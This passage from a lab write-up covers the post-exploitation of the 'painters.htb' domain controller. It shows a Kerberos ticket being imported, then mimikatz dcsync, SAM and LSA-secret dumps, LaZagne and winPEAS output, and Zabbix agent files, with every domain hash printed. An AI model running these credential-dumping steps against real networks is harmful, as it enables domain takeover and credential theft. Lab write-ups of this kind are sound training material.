      sCVurpULw/MKV3aYDMrjMRD2OwsfKWk9pf/KVhhWsPPYr+v8L5ubcGU1EpHCRqpR2tac9AgLhtWs3+Rq
      uS/3lKjJR91Z5J5gX0oclL6rHWx9Vfcwoeq1hc35svkjgx27N8RbDHcahzpos6GDfxwoRQpzhJLltUlz
      DiplaxrOFTV2woaaitt8JiIdtMjbqTnYUXWGDrSknW6ah6M8rhk+5k26gsjHHXxIPaPRCw+4sqvHn9YC
      tJntdtSI6JdJnOF/8c+mFq6XsEcN14CVEi6eGBSY2R9PuFQxoqdv0BN2Ow9PDV13NWK1A/Urra9PuavH
      DwUL+ILYrTCuVCdAE8wwEfl1PIwBrECFV+loemaA8pRBrT6F7hQt/KOzS8SJZvOjMf1LiYewaElLLkyd
      0KgLaiYFVYAmrgPr9OVEehKDOclCsFlbo1vKf527sQ0kcXZRATE9NQ3NQESxtCV4Wjt2QJSfGHiaVHvy
      LnfiO+qJnkFQyejQMNURd4rSSaW7GgXCQ4AqghdUfeFY1mbuBpUWsJUEZXOUudMxCHXmqEIn8WcvjyUB
      OA8Ki/a5Q0a3d/VJnj98vwAPMXnJ2LRb5B9RPMNxSkcyhmya/NhEClOePUxlcK5Knvekv8C8/f2jVxZZ
      AeXKmIiLILjWl0uCbeu3UTf6W2CZQ+fwaP9FjXmAVCmNV7HRJpiaQSOacoZ3C6eRq4KCbBD0TyQChyhC
      5dxnM9GFN6D2V400RsC49mpqXCJdffRKUdeBShE6AR9hr4GYl7s+urS/Mp1PiIGm/BNVGZNr1DZf3RMl
      09ZvV/bCpZqvCPdR9+1QjsuEzyEKXswFR/8XvP5UiV6SgIymhV4JaiPz9WkryQu1HTHYuq8IAPtw4BJO
      K4JlJ1feSeLUuZS7Mn2erAwbir1oz2osU/qOxDw2VALZF7HfWaNLIz+28xXZ+lJUzXjq6RJwkneJrlYX
      Gw6rAMFrfGGlfn67jlL8bR1OTH6stTRJauyBEfHQJIzocFHrAZUxeGOXA1Bbdt9HM0xNi1++JRIz77+k
      rHl/AAU6r8CTlW+VJ/NExo355jQwwkSAVInTxjhxNmVOmR6c1XNM5zwRo149VpEWGLI72Md72u5KiBiG
      mJrgfJb5SfmUGXp9B2wUz3Iu03aTrdTXTIHFK8GmgnMvds37BPzE1swk/I1FHm608oYllbevpnwusxfO
      PESHjY9iUoSYGaOX8Z5XAWIXkNEIyt/43i9608nsptm9oz3pjjVNCej0LOW1kcOHKS0rRV/LmOrwTv6Y
      HM00UhAinyT9E65nArUMcsG42UWsK+k1ArJDqgOdX9Q1DKztXjHZKbMn11zgxBwoNS71TiLdBKFrV2EJ
      EBgb3kv+Pg7VrDDkPZ+Itdj0s35FlDLIEN8xaJIrKpbpxSWrJn3J/mwDJnXRsJyzPUJh3LYgkumjRvbc
      eFcviUB+kVIaocEldzvbnBxNB7ajf6Yayp/hnnn9SrnfAqJ3OnIOyVPWLNHvZIFKci2+POfOLaNTfKRy
      JMdAPULeP7eMkrGjgdwwgdmgAwIBAKKB0QSBzn2ByzCByKCBxTCBwjCBv6AbMBmgAwIBEaESBBBFh1U4
      QthuM5K2Hrfka0EcoQ4bDFBBSU5URVJTLkhUQqIaMBigAwIBCqERMA8bDWFkbWluaXN0cmF0b3KjBwMF
      AEClAAClERgPMjAyMzA5MTExNTE2MjNaphEYDzIwMjMwOTEyMDExMDQ2WqcRGA8yMDIzMDkxODE1MTA0
      NlqoDhsMUEFJTlRFUlMuSFRCqSIwIKADAgECoRkwFxsETERBUBsPZGMucGFpbnRlcnMuaHRi

[*] Ticket written to admindc_ldap_LDAP-dc.painters.htb.kirbi

[+] Ticket successfully imported!
```

As you see now you have in memory the LDAP one:

```
C:\Temp> klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>     Client: administrator @ PAINTERS.HTB
        Server: LDAP/dc.painters.htb @ PAINTERS.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 9/11/2023 16:16:23 (local)
        End Time:   9/12/2023 2:10:46 (local)
        Renew Time: 9/18/2023 16:10:46 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

C:\Temp>
```

And now we can grab all the hashes:

```
C:\Temp> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

privilege::debug
mimikatz # Privilege '20' OK

lsadump::dcsync /dc:dc.painters.htb /domain:painters.htb /all /csv
mimikatz # [DC] 'painters.htb' will be the domain
[DC] 'dc.painters.htb' will be the DC server
[DC] Exporting domain 'painters.htb'

502     krbtgt  b59ffc1f7fcd615577dab8436d3988fc        514

1108    gavin   cb8ec920398da9fbb7c33b7b613b28d5        66048
1110    tom     dc51a409ab6cf835cbb9e471f27d8bc6        66048

1109    daniel  b084c663ad3f214e516e6f89c81c80d7        66048
2101    MAINTENANCE$    fa8cde2a742ad8f6eb16e3d4bd5ed80b        4096
1000    DC$     5869ab656006ee71af41d437a6788093        532480
1105    PNT-SVRPSB$     7fc6b6b4b44a96617b5829a888b5a85a        4096
1104    PNT-SVRBPA$     2dfcebbe9f5f4cb3bf98032887b3d7b6        4096
1103    PNT-SVRSVC$     c206d294c947cecc0e60955004ff96c5        4096
2103    WORKSTATION-1$  9ab46ef513f6f74ddf1ab492b8f542fa        4096
1106    riley   e19ccf75ee54e06b06a5907af13cef42        66048
2102    ZSM$    e0cd795bbdcb018cbd0c6414a509f90c        2080
4101    Matt    5e3c0abbe0b4163c5612afe25c69ced6        66176
1111    web_svc 502472f625746727fa99566032383067        66048
500     Administrator   2b576acbe6bcfda7294d6bd18041b8fe        66048
1107    blake   71ddafa4193caa4376aae61bcfeaf9d5        16843264

mimikatz #
```

* * *

## EXTRA:

Now we dumped all the user hashes from AD DC and we can use the global administrator account to login and check if we missed something more. As usual will start with Lazagne:

```
*Evil-WinRM* PS C:\temp> ./lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 454567e5-578e-4ac0-b8d4-3c6d0be19ba9
[+] System masterkey decrypted for e87746b0-06b6-4325-87a1-4d5292961133

########## User: SYSTEM ##########

------------------- Pypykatz passwords -----------------

[+] Shahash found !!!
Shahash: 9558aaaadde7ad72e6a998742fad124f6ce2ad08
Nthash: 5869ab656006ee71af41d437a6788093
Login: DC$

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   F1 E2 23 BB 02 50 06 86 63 10 57 A5 3D BB BF F4    ..#..P..c.W.=...
0020   23 EB C5 66 4B 1C D2 67 BD 08 1B 76 8D 2C BC B9    #..fK..g...v.,..
0030   93 88 82 E1 43 B5 30 BA 28 15 60 26 D9 90 32 57    ....C.0.(.`&..2W
0040   F2 CE D1 17 3A 67 95 80 9E 3E 3D 36 BD A4 C2 36    ....:g...>=6...6
0050   80 4C AB 3B B7 0E EC AA DD 19 6A FE 75 74 93 26    .L.;......j.ut.&
0060   25 52 FB 6E 38 64 6F C8 78 45 D5 AC 55 B5 5E 50    %R.n8do.xE..U.^P
0070   FF D3 99 E1 ED 6C EC 8B B8 EF C7 14 49 04 70 15    .....l......I.p.
0080   86 B9 F3 C9 30 11 BE 4D 1C 46 6E 5B 90 58 5A C8    ....0..M.Fn[.XZ.
0090   17 5E F1 0D 2B 27 AE 87 B7 C7 63 B0 E3 42 53 25    .^..+'....c..BS%
00A0   B4 31 40 C6 34 E2 FA A9 52 AE 80 16 3E 4B 29 6D    .1@.4...R...>K)m
00B0   13 BC F0 44 6C 75 90 77 75 A7 28 20 CA F7 41 A7    ...Dlu.wu.( ..A.
00C0   D3 5E 97 8C BD BC 6D AA 55 9B 55 13 78 3B A2 58    .^....m.U.U.x;.X
00D0   B7 60 42 63 68 67 67 BB B2 63 DF 03 E7 58 AA 88    .`Bchgg..c...X..
00E0   06 12 28 08 A1 57 17 26 84 D8 05 47 C0 94 5C 1D    ..(..W.&...G....
00F0   CF B3 48 E0 D5 A5 4D 2D 13 34 DA 4F 80 75 89 8F    ..H...M-.4.O.u..
0100   05 41 44 07 40 52 C1 0A 7D CF 4C 47 BD C1 8F E3    .AD.@R..}.LG....

DPAPI_SYSTEM
0000   01 00 00 00 FE CD 1B 46 01 F1 F1 BE CF 33 B3 89    .......F.....3..
0010   FF A2 EF F5 D8 BC 8C D3 61 30 D2 E5 0C 7B 21 53    ........a0...{!S
0020   92 30 41 24 22 ED EB 00 71 25 30 77                .0A$"...q%0w

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   48 6D D8 24 3E D2 25 7B 96 58 D1 98 1B 7A E3 57    Hm.$>.%{.X...z.W
0020   79 5B C9 17 D2 E7 E7 1A F9 48 B4 9F D8 6D 1E A8    y[.......H...m..
0030   F8 9B 47 1C B9 E3 B2 E1 CE FC 2C 92 48 01 39 25    ..G.......,.H.9%
0040   A3 AA D4 45 A3 F4 A5 A8 4B 9B DE 1F 86 A7 5B B7    ...E....K.....[.
0050   B2 99 09 6E 8D 0D 9B 0F A7 CE 81 E4 D8 A4 C6 C9    ...n............


[+] 1 passwords have been found.
For more information launch it again with the -v option

elapsed time = 9.391845703125
```

Now much here so let's move to winpeas:

```
[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits

Host Name:                 DC
OS Name:                   Microsoft Windows Server 2022 Standard
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00453-60000-00000-AA756
Original Install Date:     30/12/2021, 21:35:06
System Boot Time:          11/09/2023, 05:24:31
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 710 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,083 MB
Virtual Memory: In Use:    1,348 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    painters.htb
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB5022507
                           [02]: KB5012170
                           [03]: KB5026370
                           [04]: KB5026493
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.110.55
                                 [02]: fe80::a93:8052:2430:935d
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

Caption                                     Description      HotFixID   InstalledOn

http://support.microsoft.com/?kbid=5022507  Update           KB5022507  2/15/2023

https://support.microsoft.com/help/5012170  Security Update  KB5012170  8/10/2022

https://support.microsoft.com/help/5026370  Security Update  KB5026370  5/19/2023

                                            Update           KB5026493  5/19/2023
                                            
                                            
                                            
Zabbix Agent
    InstallLocation    REG_SZ    C:\Program Files\VMware\VMware Tools\
    InstallLocation    REG_SZ    C:\Program Files\Zabbix Agent\
    
    
    
    
    [*] NETWORK
 [+] CURRENT SHARES

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
NETLOGON     C:\Windows\SYSVOL\sysvol\painters.htb\SCRIPTS
                                             Logon server share
SYSVOL       C:\Windows\SYSVOL\sysvol        Logon server share
The command completed successfully.


 [+] INTERFACES

Windows IP Configuration

   Host Name . . . . . . . . . . . . : DC
   Primary Dns Suffix  . . . . . . . : painters.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : painters.htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-A1-9E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::a93:8052:2430:935d%7(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.110.55(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.110.1
   DHCPv6 IAID . . . . . . . . . . . : 117461078
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-29-5F-DD-9A-00-50-56-89-BD-DA
   DNS Servers . . . . . . . . . . . : ::1
                                       127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled


 [+] FIREWALL

Firewall status:
-------------------------------------------------------------------
Profile                           = Standard
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable
Group policy version              = Windows Defender Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
-------------------------------------------------------------------
10050  TCP       Any      (null)
10050  TCP       Any      (null)

IMPORTANT: Command executed successfully.
However, "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at https://go.microsoft.com/fwlink/?linkid=121488 .
```

Basically nothing much except we should check the powershell history file and that zabbix folder for hidden informations..

The folder scripts from SYSVOL is void:



Also powershell history file is not helping us:



And lastly we can see that zabbix server is pointing to 192.168.210.13:

```
### Option: Server
#       List of comma delimited IP addresses, optionally in CIDR notation, or DNS names of Zabbix servers and Zabbix proxies.
#       Incoming connections will be accepted only from the hosts listed here.
#       If IPv6 support is enabled then '127.0.0.1', '::127.0.0.1', '::ffff:127.0.0.1' are treated equally and '::/0' will allow any IPv4 or IPv6 address.
#       '0.0.0.0/0' can be used to allow any IPv4 address.
#       Example: Server=127.0.0.1,192.168.1.0/24,::1,2001:db8::/32,zabbix.domain
#
# Mandatory: yes, if StartAgents is not explicitly set to 0
# Default:
# Server=

Server=192.168.110.55,192.168.210.13

### Option: ListenPort
#       Agent will listen on this port for connections from the server.
#
# Mandatory: no
# Range: 1024-32767
# Default:
# ListenPort=10050


### Option: ListenIP
#               List of comma delimited IP addresses that the agent should listen on.
#               First IP address is sent to Zabbix server if connecting to it to retrieve list of active checks.
#
# Mandatory: no
# Default:
# ListenIP=0.0.0.0
```

We can also see the logs:

```
*Evil-WinRM* PS C:\Program Files\Zabbix Agent>
*Evil-WinRM* PS C:\Program Files\Zabbix Agent> cat zabbix_agentd.log
  3804:20221021:105445.317 Starting Zabbix Agent [DC]. Zabbix 5.4.12 (revision 9bd5a418b8).
  3804:20221021:105445.320 **** Enabled features ****
  3804:20221021:105445.321 IPv6 support:          YES
  3804:20221021:105445.321 TLS support:           YES
  3804:20221021:105445.323 **************************
  3804:20221021:105445.324 using configuration file: C:\Program Files\Zabbix Agent\zabbix_agentd.conf
  3804:20221021:105445.795 agent #0 started [main process]
  3860:20221021:105445.798 agent #1 started [collector]
  2480:20221021:105445.800 agent #2 started [listener #1]
  3080:20221021:105445.803 agent #3 started [listener #2]
  2768:20221021:105445.805 agent #4 started [listener #3]
  3948:20221021:105445.805 agent #5 started [active checks #1]
  3948:20221021:105447.836 active check configuration update from [192.168.110.55:10051] started to fail (cannot connect to [[192.168.110.55]:10051]: Connection refused.)
  2480:20221021:111549.475 failed to accept an incoming connection: connection from "192.168.210.13" rejected, allowed hosts: "192.168.110.55"
  3080:20221021:111623.921 failed to accept an incoming connection: connection from "192.168.210.13" rejected, allowed hosts: "192.168.110.55"
  2768:20221021:111625.424 failed to accept an incoming connection: connection from "192.168.210.13" rejected, allowed hosts: "192.168.110.55"
  2768:20221021:111725.434 failed to accept an incoming connection: connection from "192.168.210.13" rejected, allowed hosts: "192.168.110.55"
  2372:20221021:111819.743 Zabbix Agent stopped. Zabbix 5.4.12 (revision 9bd5a418b8).
  2556:20221021:111822.963 Starting Zabbix Agent [DC]. Zabbix 5.4.12 (revision 9bd5a418b8).
  2556:20221021:111822.965 **** Enabled features ****
  2556:20221021:111822.966 IPv6 support:          YES
  2556:20221021:111822.966 TLS support:           YES
  2556:20221021:111822.967 **************************
  2556:20221021:111822.968 using configuration file: C:\Program Files\Zabbix Agent\zabbix_agentd.conf
  2556:20221021:111825.272 agent #0 started [main process]
  3888:20221021:111825.275 agent #2 started [listener #1]
  2476:20221021:111825.275 agent #3 started [listener #2]
  2380:20221021:111825.276 agent #1 started [collector]
```

And lastly we can dump sam from mimiatz:

```
C:\Temp> mimikatz.exe "privilege::debug" "lsadump::sam" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::sam
Domain : DC
SysKey : 26e642aeb927768190bf01f71ffcc079
Local SID : S-1-5-21-904537713-2251106281-648342985

SAMKey : 46259cc5903032263ccb31889d1ec479

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 5e3c0abbe0b4163c5612afe25c69ced6

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

mimikatz(commandline) # exit
Bye!
```

And secrets from LSASS:

```
C:\Temp> mimikatz.exe "privilege::debug" "lsadump::secrets" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::secrets
Domain : DC
SysKey : 26e642aeb927768190bf01f71ffcc079

Local name : DC ( S-1-5-21-904537713-2251106281-648342985 )
Domain name : PAINTERS ( S-1-5-21-1470357062-2280927533-300823338 )
Domain FQDN : painters.htb

Policy subsystem is : 1.18
LSA Key(s) : 1, default {9bb0d7d6-a336-f0e1-acd3-2126f1d8528a}
  [00] {9bb0d7d6-a336-f0e1-acd3-2126f1d8528a} e187fcbe18867504f1bf2e958a660ea764558b00955d9225e5e7ab7ef208cb4c

Secret  : $MACHINE.ACC

cur/hex : f1 e2 23 bb 02 50 06 86 63 10 57 a5 3d bb bf f4 23 eb c5 66 4b 1c d2 67 bd 08 1b 76 8d 2c bc b9 93 88 82 e1 43 b5 30 ba 28 15 60 26 d9 90 32 57 f2 ce d1 17 3a 67 95 80 9e 3e 3d 36 bd a4 c2 36 80 4c ab 3b b7 0e ec aa dd 19 6a fe 75 74 93 26 25 52 fb 6e 38 64 6f c8 78 45 d5 ac 55 b5 5e 50 ff d3 99 e1 ed 6c ec 8b b8 ef c7 14 49 04 70 15 86 b9 f3 c9 30 11 be 4d 1c 46 6e 5b 90 58 5a c8 17 5e f1 0d 2b 27 ae 87 b7 c7 63 b0 e3 42 53 25 b4 31 40 c6 34 e2 fa a9 52 ae 80 16 3e 4b 29 6d 13 bc f0 44 6c 75 90 77 75 a7 28 20 ca f7 41 a7 d3 5e 97 8c bd bc 6d aa 55 9b 55 13 78 3b a2 58 b7 60 42 63 68 67 67 bb b2 63 df 03 e7 58 aa 88 06 12 28 08 a1 57 17 26 84 d8 05 47 c0 94 5c 1d cf b3 48 e0 d5 a5 4d 2d 13 34 da 4f 80 75 89 8f
    NTLM:5869ab656006ee71af41d437a6788093
    SHA1:9558aaaadde7ad72e6a998742fad124f6ce2ad08
old/hex : fe ac 44 5d 73 29 16 ac dd b4 cb 5a 93 69 39 fc 74 3c ab 00 8a 7b a2 b4 d1 2c 4b 07 78 ea 4d 67 81 50 bc 30 1a 7b b1 46 da 37 1c 2d 6a 1c 29 06 52 6b fe b7 d6 4f c4 49 f5 90 56 1c 26 f9 39 eb c6 8b f8 1b e6 66 81 b2 3c ce 1c 60 31 b9 be ab a1 dd 52 a0 b3 f0 1e a4 b4 e5 d1 bf 5f d6 f0 18 b8 26 3a 63 2a 07 b0 ea 7a c1 f0 a8 75 08 70 7c 48 51 fd 78 81 f9 88 9c 1a 14 50 f6 3a b9 31 ac 57 eb bc 3b 42 85 60 49 79 9e 0e b7 a7 3e c8 0f 32 70 1c 3e a7 a6 79 9a a7 f5 7e a9 a6 d4 a4 5b 7c 1f b5 15 eb 90 fd af e3 c7 08 c8 8a f5 b5 be 44 57 cf 34 10 86 0a 4c fb 2c 47 3f b6 17 55 4c 80 52 17 2b eb c4 3f 8b 5b b5 fc 68 1b 19 13 fa bf a3 b7 88 07 8b 2f 02 d5 54 5e f6 32 3f 49 bb c4 8e d9 6c d0 f6 af 45 04 9b 10 35 59 ce ab 78
    NTLM:1ff3e760ba882848449785a137477cef
    SHA1:abb39ffcda0bd0ce1fb34619b6fd6ccca6b3bd75

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 fe cd 1b 46 01 f1 f1 be cf 33 b3 89 ff a2 ef f5 d8 bc 8c d3 61 30 d2 e5 0c 7b 21 53 92 30 41 24 22 ed eb 00 71 25 30 77
    full: fecd1b4601f1f1becf33b389ffa2eff5d8bc8cd36130d2e50c7b21539230412422edeb0071253077
    m/u : fecd1b4601f1f1becf33b389ffa2eff5d8bc8cd3 / 6130d2e50c7b21539230412422edeb0071253077
old/hex : 01 00 00 00 3a 74 9d 4f 7b 5d 78 6b 1f f5 3b bc 75 c0 27 6f 71 1a 69 3d 49 38 64 05 c5 d2 40 36 a5 0a 2e 41 60 62 ea 23 cb ef 4e ef
    full: 3a749d4f7b5d786b1ff53bbc75c0276f711a693d49386405c5d24036a50a2e416062ea23cbef4eef


    m/u : 3a749d4f7b5d786b1ff53bbc75c0276f711a693d / 49386405c5d24036a50a2e416062ea23cbef4eef

Secret  : NL$KM
cur/hex : 48 6d d8 24 3e d2 25 7b 96 58 d1 98 1b 7a e3 57 79 5b c9 17 d2 e7 e7 1a f9 48 b4 9f d8 6d 1e a8 f8 9b 47 1c b9 e3 b2 e1 ce fc 2c 92 48 01 39 25 a3 aa d4 45 a3 f4 a5 a8 4b 9b de 1f 86 a7 5b b7
old/hex : 48 6d d8 24 3e d2 25 7b 96 58 d1 98 1b 7a e3 57 79 5b c9 17 d2 e7 e7 1a f9 48 b4 9f d8 6d 1e a8 f8 9b 47 1c b9 e3 b2 e1 ce fc 2c 92 48 01 39 25 a3 aa d4 45 a3 f4 a5 a8 4b 9b de 1f 86 a7 5b b7

mimikatz(commandline) # exit
Bye!
```

* * *

&nbsp;

&nbsp;

&nbsp;

&nbsp;